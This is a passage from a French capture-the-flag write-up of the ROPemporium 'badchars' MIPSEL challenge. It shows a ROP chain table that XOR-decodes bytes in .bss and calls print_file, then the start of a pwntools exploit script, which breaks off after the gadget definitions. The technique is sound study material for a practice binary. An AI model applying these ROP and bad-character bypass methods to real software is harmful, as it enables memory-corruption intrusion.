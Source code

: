 | 0xdeadbeef | | junk |
| 0x00001072 | @.bss+2 | pour `t1`
| 3 | 3 | pour `t0`
| 0x00400948 | lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10 | Pour `t9`
| ----------| bss[4]=bss[4]^3| -----
| 0xdeadbeef | | junk |
| 0x00001074 | @.bss+2 | pour `t1`
| 3 | 3 | pour `t0`
| 0x00400948 | lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10 | Pour `t9`
| ----------| bss[6]=bss[6]^3
| 0xdeadbeef | | junk |
| 0x00001076 | @.bss+2 | pour `t1`
| 3 | 3 | pour `t0`
| 0x00400968 | lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop | Pour `t9` gadget de call
| ----------| ----------| Appel print_file(@.bss)
| 0xdeadbeef | | junk |
| 0x00400a90 | print_file@plt | pour `t9`
| 0x00001064 | @.bss | pour `a0`

## Exploitation

### Script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time


# ROPemporium badchars MIPSEL

# Set up pwntools for the correct architecture
elf = context.binary = ELF('badchars_mipsel')
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]

gs='''
b *pwnme+444
c
'''

def xorchain(chain, bytes, mask):
    r=b""
    for i,c in enumerate(chain):
        if bytes&0x80:
            c=c^mask
        r+=chr(c).encode()
        bytes= bytes<<1
    return r

# Gadgets
# lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10
g_write = 0x00400930

```